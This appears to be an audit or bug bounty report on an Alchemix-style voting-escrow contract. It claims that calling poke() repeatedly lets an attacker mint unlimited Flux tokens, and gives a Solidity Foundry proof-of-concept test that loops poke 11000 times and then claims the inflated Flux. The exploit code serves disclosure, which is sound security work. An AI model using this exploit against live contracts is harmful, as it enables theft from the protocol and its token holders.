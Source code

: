 This bug involves only exploit of poke() function. For this bug the attacker can mint unlimited amount of Flux token. 


## Proof of concept
#  Proof of concept

## testFluxAccrual_Poke_Hacked() 
I created the POC for exploit scenario 

The POC code: 
```solidity
function testFluxAccrual_Poke_Hacked() public {
        
        address attacker = address(this); 
        console2.log("Start to createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 2 weeks, false);
                
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        console2.log("Call voter.poke(tokenId1)");
        
        uint256 count = 11000; 

        for (uint256 i = 0; i < count; ++i)
        {
            voter.poke(tokenId1);                       
        
        }
        
        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker));

}
```
